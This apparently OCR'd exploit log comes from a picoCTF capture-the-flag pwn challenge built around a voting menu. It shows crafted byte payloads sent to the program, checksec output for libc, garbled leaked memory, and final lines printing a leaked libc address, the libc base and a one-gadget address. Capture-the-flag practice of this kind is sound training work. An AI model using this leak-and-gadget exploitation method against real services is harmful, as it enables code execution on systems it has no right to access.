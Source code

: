 ```
b'yes\x00                            AR\xd7\x00\x00\x00\x00\x00 '
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                            BR\xd7\x00\x00\x00\x00\x00`'
> Vote for your Favorite Problems from picoCTF 2018!
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

n
List Problems? (y/n) Which Problem do you want to vote for?
choose
> You can't choose choose because that was last year's master pwn, NO arguments! Would you like to vote for this year's instead?
b'yes\x00                            \x18 `\x00\x00\x00\x00\x00\xc0'
> Vote for your Favorite Problems from picoCTF 2018!
[*] './libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
1. Choose a Problem
2. Vote for a Problem
3. View Results
4. Exit
>
2

y
List Problems? (y/n) Current Choices
0  -  ælÊ\x7f
1  - ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿ0 `
2  - no-args
3  - contacts
4  - cake
5  - freecalc
6  - sword
7  - are you root?
8  - gps
9  - circuit123
Which Problem do you want to vote for?
>

Suuuuure, that makes sense. Your favorite problem from picoCTF 2018 was '', but it didn't even get a nomination...
LEAKED LIBC ADDR: 0x7F98CA6CE620
LIBC BASE ADDR: 0x7F98CA309000
GADGET ADDR (req rsp+0x30 == null): 0x7F98CA34E26A
```